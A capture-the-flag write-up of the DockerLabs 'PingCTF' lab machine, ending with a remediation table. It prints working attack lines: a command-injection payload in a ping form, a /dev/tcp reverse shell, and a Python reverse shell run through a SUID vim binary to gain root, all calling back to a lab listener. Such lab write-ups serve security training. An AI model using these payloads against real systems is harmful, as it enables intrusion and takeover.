








# PingCTF — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Easy · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1

## Machine info


## Summary

PingCTF is an easy machine built around a single web application: a "Ping" utility that lets a user submit an IP or domain to test connectivity. The input is passed unsanitized into a shell command, allowing OS command injection to gain a foothold as `www-data`. From there, enumeration reveals a non-standard SUID bit on `vim.basic`, which is abused via its embedded Python interpreter to escalate directly to root.

**Attack chain:** Recon → Web enumeration (Ping tool) → OS command injection in the `target` parameter → Reverse shell as www-data → SUID enumeration finds vim.basic → vim.basic SUID abuse via its embedded Python interpreter → root

## 1. Reconnaissance

Confirmed the host was reachable, then ran a full TCP port scan with service/version detection and default scripts.

```
ping -c 1 172.17.0.2
```



```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

Results:

| Port | Service | Version |
|------|---------|---------|
| 80/tcp | http | Apache httpd 2.4.58 (Ubuntu) |

Only one port open, with the page title reported as "Ping" — a strong hint toward the application's purpose.

## 2. Web Enumeration

Browsed to the site and found a single-page tool: a form that accepts an IP or domain and checks connectivity to it, built by a user identified as `borazuwarah`.



The page's own hint text ("try it with Google's IP, e.g. 8.8.8.8") suggested the input is fed directly into a system-level ping command.

## 3. Command Injection

Tested whether the `target` field was passed unsanitized to a shell command by appending a `;` separator followed by a second command.

Payload: `127.0.0.1;whoami`



The response confirmed command execution, returning `www-data` — and the resulting URL (`/ping.php?target=127.0.0.1%3Bwhoami`) confirmed the parameter is reflected straight into the underlying command.



## 4. Gaining a Shell

Used the same injection point to deliver a reverse shell payload.

Payload: `127.0.0.1;bash -c "sh -i >& /dev/tcp/172.17.0.1/4444 0>&1"`



Started a listener on the attacker machine and submitted the payload:

```
nc -lvnp 4444
```



The listener caught the callback as `www-data`. The shell came in without job control (`sh: 0: can't access tty; job control turned off`), so it was upgraded for interactivity:

```
script /dev/null -c bash
```

```
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 5. Post-Exploitation

Checked for available privilege escalation vectors. `sudo` wasn't even installed:

```
sudo -l
```

```
bash: sudo: command not found
```

Searched for SUID binaries instead:

```
find / -perm -4000 2>/dev/null
```



Most results are standard Debian/Ubuntu SUID binaries (`umount`, `newgrp`, `chsh`, `chfn`, `su`, `gpasswd`, `passwd`, `mount`). The outlier is `vim.basic` — a full-featured text editor with the SUID bit set is not normal and is a well-known GTFOBins privilege escalation vector. Confirmed the SUID bit and ownership:

```
ls -la /usr/bin/vim.basic
```

```
-rwsr-xr-x 1 root root 4126400 Apr  1  2025 /usr/bin/vim.basic
```

## 6. Privilege Escalation

GTFOBins documents `vim`'s SUID technique in general terms: its embedded interpreter can be used to spawn a shell that inherits the binary's effective privileges. The standard payloads listed there (an interactive shell via `:!` or `os.execl`) hung on this box, since the session lacked a full TTY — the same missing job control seen when the first reverse shell connected. Working around that, a standard Python reverse-shell one-liner was used instead, extended with `os.setuid(0)` and run inside vim's `:py3` interpreter — so the socket connection inherits the effective root privileges from vim's own SUID bit before spawning the shell:

```
nc -lvnp 5555
```

```
vim.basic -c ':py3 import os,socket,subprocess; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("172.17.0.1",5555)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.setuid(0); subprocess.call(["/bin/sh","-i"])'
```



The shell that connected to the new listener already had an effective UID of 0. `os.setuid(0)` only elevates the effective UID, not the group — hence root access while still showing the `www-data` group.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| OS command injection in the Ping tool's `target` parameter | Never pass user input directly into a shell command; use safe APIs (e.g. Python's `subprocess` with an argument list, not a shell string) and strict input validation/allow-listing |
| SUID bit set on `vim.basic`, a full-featured editor capable of arbitrary code execution | Remove unnecessary SUID bits from editors and interpreters; audit SUID binaries regularly against GTFOBins |
| No centralized privilege auditing (`sudo` not even installed) | Maintain a process for auditing SUID/SGID binaries and unusual filesystem permissions regardless of sudo usage |
